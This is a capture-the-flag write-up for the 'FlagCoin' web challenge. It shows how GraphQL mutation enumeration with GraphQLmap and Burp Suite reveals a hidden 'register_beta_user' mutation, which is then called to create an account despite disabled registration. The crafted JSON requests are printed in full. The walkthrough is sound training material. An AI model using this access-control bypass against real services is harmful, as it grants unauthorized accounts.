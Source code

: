 ## Web

### FlagCoin

_Our new 110% legit cryptocurrency is so cool, it does not even use blockchains. We have a WIP web interface for trading though. Hope nobody can get a beta testing account._

#### Solution

The fist thing we see is a simple login screen:
![](/writeups/images/glacierctf2022_flagcoin_login.png)

We can notice that the registration is disabled, so we can only log in existing profiles.
Looking at the source code, we notice nothing special.

Using **Burp Suite**, we can take a look at the performed request:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        login(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": { "username": "blabla", "password": "ciaociao" }
}
```

We notice that a **mutation** query is performed.
That's the _key_ to the solution.

The idea was to gain the access to the _beta_ account.

That's how I did this:

1. Using a tool ([GraphQL Map](https://github.com/swisskyrepo/GraphQLmap)), I discovered that there were 3 possible mutations: **login.query**, **redeem.query** (which comes in hand for stage 2) and **register_beta_user.query** (the one I was looking for)

2. Opening the **register_beta_user.query** file, here is what I obtained:

```json
{
  "query": "mutation {\n\tregister_beta_user(username:String, password:String) {\n\t\tusername\n\t\tpassword\n\t\tcoins\n\t}\n}"
}
```

3. Now we can inject the request (again using _Burp_) to perform the _register_beta_user_ query:

```json
{
  "query": "\n      mutation($username: String!, $password: String!) { \n        register_beta_user(username: $username, password: $password) { \n          username \n        } \n      }\n      ",
  "variables": { "username": "beta", "password": "tester" }
}
```

4. Than we can login with the new account:
   ![](/writeups/images/glacierctf2022_flagcoin_solved_login.png)
